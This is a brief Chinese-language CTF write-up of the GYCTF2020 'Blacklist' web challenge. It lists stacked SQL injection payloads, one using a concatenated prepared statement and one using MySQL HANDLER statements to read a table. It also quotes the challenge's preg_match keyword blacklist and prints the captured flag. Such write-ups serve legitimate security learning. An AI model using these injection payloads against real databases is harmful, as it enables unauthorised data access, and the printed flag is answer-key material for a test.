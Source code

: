 # [GYCTF2020]Blacklist

[题目地址](https://buuoj.cn/challenges#[GYCTF2020]Blacklist)

一看到这题的页面我就想到了之前做过的[一道题](https://github.com/C0nstellati0n/NoobCTF/blob/main/CTF/%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8C/2%E7%BA%A7/Web/supersqli.md)。结果发现之前写的笔记里面爆库爆表爆字段名都能用，表名是FlagHere，就是到最后爆字段内容时出现了过滤。

- ';set @sql=concat('s','elect * from `FlagHere`');PREPARE pre FROM @sql;EXECUTE pre; #
  > return preg_match("/set|prepare|alter|rename|select|update|delete|drop|insert|where|\./i",$inject);

增加了过滤内容，预处理语句这条路是走不通了。当时那道题其实有三种解法，其中两种都在这里被过滤了，只剩下最后一种——[handler](https://blog.csdn.net/JesseYoung/article/details/40785137)。用法很简单，这篇帖子里全部都提到了。根据handler语句构造payload。

- ';handler FlagHere open;handler FlagHere read first;handler FlagHere close;#

handler 表名 open 打开一个表，此时我们获取了打开表的句柄。handler 表名 read first 读取打开的句柄的第一行内容，此处第一行内容就是flag。handler 表名 close 关闭刚才打开的句柄。

## Flag
> flag{2141300c-f5eb-4c18-be7a-7451d7475286}
